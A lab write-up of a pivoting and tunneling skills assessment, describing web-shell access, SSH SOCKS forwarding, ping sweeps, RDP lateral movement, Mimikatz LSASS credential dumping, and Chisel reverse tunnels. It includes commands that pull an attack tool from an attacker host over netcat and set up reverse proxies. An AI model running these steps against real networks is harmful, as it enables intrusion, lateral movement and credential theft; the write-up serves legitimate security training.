

## Pivoting, Tunneling, and Port Forwarding — Skills Assessment Write-up

### Initial Reconnaissance

The initial hint indicated that a web server was running on the remote host `10.129.X.X` (port 80). Since the exercise focused on pivoting techniques, I began with a full port scan to identify potential entry points:

```bash
sudo nmap -sS -p- -T4 10.129.X.X
```

This revealed that ports **22 (SSH)** and **80 (HTTP)** were open. As no credentials were available at this stage, the most viable initial access vector was through the web server, likely via a web shell.


### File System Enumeration

Upon gaining access via the web shell, the root directory did not contain anything of interest. Navigating to the `Users` directory revealed some subfolders, one of them contained a file titled `for-admin-eyes-only` that included a set of credentials (not functional for SSH login), and an `id_rsa` private SSH key.


I copied the private key, saved it to the attack machine, set appropriate permissions (`chmod 600`), and used it to SSH into the host.


### Setting Up Port Forwarding

Since lateral movement would be necessary later, I established **dynamic port forwarding** via SSH:

```bash
ssh -D 9050 -i id_rsa <username>@10.129.X.X
```

I also updated the `proxychains` configuration to route traffic through this SOCKS proxy.


### Discovering Internal Network

To identify other reachable hosts, I ran `ifconfig` on the pivot host and noted its internal IP address range. Since `nmap` scans over `proxychains` were very slow, I executed the scan with bash script **directly on the pivot host** (a Linux machine):

```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```


The output showed two active hosts — one of which was the pivot host itself. The second had a TTL indicative of a Windows machine.


### Accessing the Second Host (Windows)

Due to proxy-related issues, most ports appeared as **filtered** even when using `-sT` and `-Pn` flags. To confirm open ports, I attempted an **RDP connection** using the previously obtained credentials.


After successfully logging in, I navigated to `C:\` and retrieved the second flag.


### Domain Recon and Privilege Escalation

Next, I explored the `Users` directory and found folder names suggesting a domain environment.


Although no credentials were stored in plaintext, I was able to launch both `cmd.exe` and `powershell.exe` **with administrative privileges**, confirming local admin access.

To obtain domain credentials, I decided to extract hashes using **Mimikatz**. First, I verified the OS architecture.


The system was 64-bit, so I downloaded the tool and transferred the `x64` version of Mimikatz using `netcat`.


#### File Transfer via Netcat:

1. On the attack machine:
   ```bash
   nc -lvnp 9001 < mimikatz_x64.zip
   ```
   
   
   
2. On the first pivot host:
   ```bash
   nc <attacker-ip> 9001 > mimikatz_x64.zip
   ```
   
   

I then hosted a Python HTTP server to allow the second pivot host (Windows) to download the tool:

```bash
python3 -m http.server 8888
```


### Extracting Credentials with Mimikatz

After extracting the archive, I executed `mimikatz.exe` with admin privileges from `cmd.exe`.


I dumped credentials from the LSASS process and recovered:

- A domain **username**
- Its corresponding **NTLM hash**

Initially, I overlooked the cleartext password, so I used the NTLM hash for subsequent authentication steps.

---

### Discovering the Third Host (172.16.6.X)

Previously, I identified another internal subnet: `172.16.6.X`. I scanned this range using PowerShell from the second pivot host:

```powershell
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```

First try had no results, so I scanned again. One additional host responded.


### Port Forwarding with Chisel

To access the third host (from `172.16.6.X`) via RDP, I needed to create another tunnel, this time with **Chisel**, since the Linux pivot host could not reach this subnet.

The second Windows host (with interfaces in both `172.16.5.X` and `172.16.6.X`) was selected to run the **Chisel client**.

> ⚠️ *Note: The latest Chisel version failed due to glibc library issues, so I used a precompiled older version.*

Steps:

1. Downloaded Chisel binaries and added `.exe` extension where needed.




2. Transferred them using `wget` and hosted them over Python servers.


3. Set up a Chisel server on the Linux machine (pivot host):
   ```bash
   ./chisel server -p 9001 --reverse
   ```
   
   
   
4. Started Chisel client on the second pivot host:
   ```bash
   chisel.exe client 172.16.5.X:9001 R:socks
   ```

	


### Accessing the Final Host

I updated `proxychains.conf` again and initiated an RDP session using **domain user credentials**.


Upon logging in, I found the final flag in `C:\`.


Additionally, I noticed a mapped **Z: drive** that was inaccessible initially.


### Final Step — Accessing Network Share

After revisiting the Mimikatz dump, I realized that I had missed a **cleartext password** for the domain user.

Using these recovered credentials, I successfully entered to a mounted **Z: drive**, which was a domain share, and retrieved the final flag.


## Conclusion

This assessment demonstrated the full pivot chain involving:

- Web shell → SSH access
- Proxychains + dynamic port forwarding
- RDP lateral movement
- Credential dumping via Mimikatz
- Cross-subnet tunneling using Chisel
- Final domain share access

All tasks were completed without external tooling (except Mimikatz, which was covered in the Password Attacks module) beyond those allowed by the assessment scope.

